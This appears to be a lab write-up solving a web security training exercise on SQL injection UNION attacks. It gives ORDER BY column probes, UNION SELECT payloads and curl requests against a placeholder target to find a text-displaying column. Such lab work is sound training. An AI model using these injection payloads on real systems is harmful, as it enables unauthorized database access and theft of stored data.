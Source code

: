 # SQL injection UNION attack, finding a column containing text — Practitioner

**Status:** Solved

---

## Goal

Find which columns in the SQL query can contain text data by injecting a specific string provided by the lab.

---

## Steps (simple & complete)

1. **Find the injection point**
   - Browse to the shopping application
   - Click on any product category:
```
   GET /filter?category=Gifts
```
   - This parameter is vulnerable to SQL injection

2. **Check the lab banner**
   - Look at the lab page - it will tell you a specific string to use
   - Something like: "Make the database retrieve the string: 'a2F3Bx'"
   - Copy this exact string - you need to make it appear on the page

3. **Determine the number of columns**
   - Use ORDER BY or UNION SELECT NULL:
```
   Gifts' ORDER BY 1--
   Gifts' ORDER BY 2--
   Gifts' ORDER BY 3--
   Gifts' ORDER BY 4--
```
   - Let's say it has 3 columns (error at ORDER BY 4)

4. **Test each column for string compatibility**
   - Replace NULL with the required string in each position:
```
   Gifts' UNION SELECT 'a2F3Bx',NULL,NULL--
   Gifts' UNION SELECT NULL,'a2F3Bx',NULL--
   Gifts' UNION SELECT NULL,NULL,'a2F3Bx'--
```
   - One or more will work without error

5. **Find which column displays the string**
   - Try each position and check the page output:
   
   Test column 1:
```bash
   curl -s "https://TARGET/filter?category=Gifts'+UNION+SELECT+'a2F3Bx',NULL,NULL--"
```
   
   Test column 2:
```bash
   curl -s "https://TARGET/filter?category=Gifts'+UNION+SELECT+NULL,'a2F3Bx',NULL--"
```
   
   Test column 3:
```bash
   curl -s "https://TARGET/filter?category=Gifts'+UNION+SELECT+NULL,NULL,'a2F3Bx'--"
```

6. **Verify the string appears**
   - Look at the page content for your injected string
   - It should appear somewhere in the product listings
   - The column that displays it is the text-compatible column

7. **Lab completion**
   - Once the required string appears on the page, lab solves automatically
   - You've successfully identified which column can hold text data

---

## Example

- Lab instruction: "Make the database retrieve the string: 'xyz123'"
- Column count: 3 columns
- Test positions:

Position 1:
```
Gifts' UNION SELECT 'xyz123',NULL,NULL--
```
Result: Error or not displayed

Position 2:
```
Gifts' UNION SELECT NULL,'xyz123',NULL--
```
Result: String appears on page ✓

Position 3:
```
Gifts' UNION SELECT NULL,NULL,'xyz123'--
```
Result: Error or not displayed

**Answer: Column 2 accepts and displays text**

---

## Why this matters

**Data type compatibility:**
- SQL columns have specific data types (TEXT, VARCHAR, INT, DATE, etc.)
- UNION requires matching data types across queries
- Not all columns can display text - some might be numeric or binary
- Finding text-compatible columns is crucial for data extraction

**Real-world application:**
- Once you know which columns accept text, you can:
  - Extract database names, table names, passwords
  - Retrieve sensitive string data
  - Display system information
  - Execute more complex attacks

**Why NULL works everywhere:**
- NULL is type-agnostic and works in any column
- But it doesn't display actual data
- We need actual text columns for meaningful extraction

---

## Common issues

- **Wrong string**: Make sure you use the EXACT string from the lab instructions
- **Type mismatch**: If all positions give errors, double-check column count
- **Not displayed**: The column might accept strings but not be visible on the page
- **Multiple columns**: Sometimes more than one column works - use any that displays

---

